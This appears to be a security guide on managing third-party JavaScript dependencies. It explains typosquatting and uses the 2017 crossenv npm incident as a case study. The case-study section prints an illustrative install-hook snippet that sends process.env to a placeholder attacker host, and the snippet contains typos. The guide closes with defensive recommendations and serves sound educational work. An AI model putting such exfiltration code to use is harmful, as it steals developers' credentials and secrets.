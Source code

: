 # Managing Third-Party JavaScript Libraries

# Description

When it comes to Third Party Management, [The OWASP Top 10 2017 A9:2017 Using Components with Known Vulnerabilities](https://owasp.org/www-project-top-ten/2017/A9_2017-Using_Components_with_Known_Vulnerabilities) covers this topic very well.

During the Software Development Life-cycle, it is very important to add some controls to not only document the libraries that are being used, but also to have an inventory of the versions and components that are used and where are they being used, so they are not out of date, vulnerable or deprecated.

According to the OWASP foundation, some of the risks of using third-party JavaScript code could involve:
* The loss of control over changes to the client application.
* The execution of arbitrary code on client systems.
* The disclosure or leakage of sensitive information to 3rd parties.

# Case study: Exfiltration of sensitive information via TypoSquatting 

Back in August 2017, a malicious NPM (Node Package Management) user/developer published several packages taking advantage of the so-called technique known as Typosquatting, and included malware exfiltrate environment variables and send them to a user-controlled domain (aka secret stealing).

## What is Typosquatting Anyway?
Doing some quick search on the Internet you come across the following definition from Wikipedia:

"Typosquatting, also called URL hijacking, a sting site, or a fake URL, is a form of cybersquatting, and possibly brandjacking which relies on mistakes such as typos made by Internet users when inputting a website address into a web browser. Should a user accidentally enter an incorrect website address, they may be led to any URL (including an alternative website owned by a cybersquatter).
The typosquatter's URL will usually be one of four kinds, all similar to the victim site address (e.g. example.com):
* A common misspelling, or foreign language spelling, of the intended site: exemple.com
* A misspelling based on typos: examlpe.com
* A differently phrased domain name: examples.com
* A different top-level domain: example.org
* An abuse of the Country Code Top-Level Domain (ccTLD): example.cm by using .cm, example.co by using .co, or example.om by using .om. A person leaving out a letter in .com in error could arrive at the fake URL's website.

Once in the typosquatter's site, the user may also be tricked into thinking that they are in fact in the real site, through the use of copied or similar logos, website layouts, or content. Spam emails sometimes make use of typosquatting URLs to trick users into visiting malicious sites that look like a given bank's site, for instance."

Note that the previous definition not only applies to domain names, it can be used to deceive the user with names or strings that look very similar to what the user is looking for.

# The malware code

In this real scenario, the attacker created several npm packages with a similar name (typosquatting) to the original package, but those packages published by the threat actor, contained additional code that exfiltrated secrets and environment variables during the installation hook in npm. The malware code looked like this:

```javascript
const http        = require('http');
const querystring = require('querystring');

const host        = 'malicious-domain-goes-here';
const env         = JSON.stringify(process.env);
const data        = new Buffer(env).toString('base64');

const postData    = querystring.stringify({data});

const options    = {
    hostname: host,
    port    : 80,
    path    : '/log/',
    method  : 'POST',
    headers : {
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': Buffer.byteLenght(postData)
    }
}
const req = http.request(options)
req.write(portData);
req.end();
```
As you can see in this code, the threat actor added a post-installation script that accessed environment variables and pushed them to a controlled domain. Commonly, developers store sensitive data and secrets (API keys, cloud provider credentials, ssh keys) in environment variables; by installing this package without doing a proper code review, could introduce multiple problems.

# Recommendations when relying on third-party JavaScript packages

Here are some good recommendations for doing a proper patching process:

* Remove unused dependencies, unnecessary features, components, files, and documentation.
* Continuously inventory the versions of both client-side and server-side components (e.g. frameworks, libraries) and their dependencies using tools like versions, DependencyCheck, retire.js, etc. Continuously monitor sources like CVE and NVD for vulnerabilities in the components. Use software composition analysis tools to automate the process. Subscribe to email alerts for security vulnerabilities related to components you use.
* Only obtain components from official sources over secure links. Prefer signed packages to reduce the chance of including a modified, malicious component.
* Monitor for libraries and components that are unmaintained or do not create security patches for older versions. If patching is not possible, consider deploying a virtual patch to monitor, detect, or protect against the discovered issue.
Every organization must ensure that there is an ongoing plan for monitoring, triaging, and applying updates or configuration changes for the lifetime of the application or portfolio.


# References

[A9:2017-Using Components with Known Vulnerabilities](https://owasp.org/www-project-top-ten/2017/A9_2017-Using_Components_with_Known_Vulnerabilities)

[Third Party JavaScript Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Third_Party_Javascript_Management_Cheat_Sheet.html)

[corssenv malware on the npm registry](https://blog.npmjs.org/post/163723642530/crossenv-malware-on-the-npm-registry)

[Command and Scripting Interpreter: JavaScript/JScript](https://attack.mitre.org/techniques/T1059/007/)
